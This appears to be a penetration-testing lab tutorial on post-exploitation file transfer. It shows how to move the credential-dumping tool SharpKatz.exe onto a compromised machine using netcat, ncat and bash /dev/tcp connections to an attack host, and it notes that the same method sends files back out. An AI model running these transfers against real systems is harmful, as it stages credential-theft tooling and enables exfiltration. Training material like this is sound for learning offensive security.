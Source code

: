 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```

[Netcat](https://sectools.org/tool/netcat/) (often abbreviated to `nc`) is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means that we can use it for file transfer operations.

The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.

In this section, we will use both the original Netcat and Ncat.

**Note:** **Ncat** is used in HackTheBox's PwnBox as nc, ncat, and netcat.

## File Transfer with Netcat and Ncat

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target. Let's create an example and transfer a tool to our target.

In this example, we'll transfer [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) from our Pwnbox onto the compromised machine. We'll do it using two methods. Let's work through the first one.

We'll first start Netcat (`nc`) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)) using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

#### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat - Compromised Machine - Listening on Port 8000

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

```shell-session
arenwald@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
arenwald@htb[/htb]$ # Example using Original Netcat
arenwald@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine

```shell-session
arenwald@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
arenwald@htb[/htb]$ # Example using Ncat
arenwald@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat

```shell-session
arenwald@htb[/htb]$ # Example using Original Netcat
arenwald@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

#### Attack Host - Sending File as Input to Ncat

```shell-session
arenwald@htb[/htb]$ # Example using Ncat
arenwald@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

```shell-session
arenwald@htb[/htb]$ # Example using Original Netcat
arenwald@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Ncat

```shell-session
arenwald@htb[/htb]$ # Example using Ncat
arenwald@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**Note:** The same operation can be used to transfer files from the compromised host to our Pwnbox.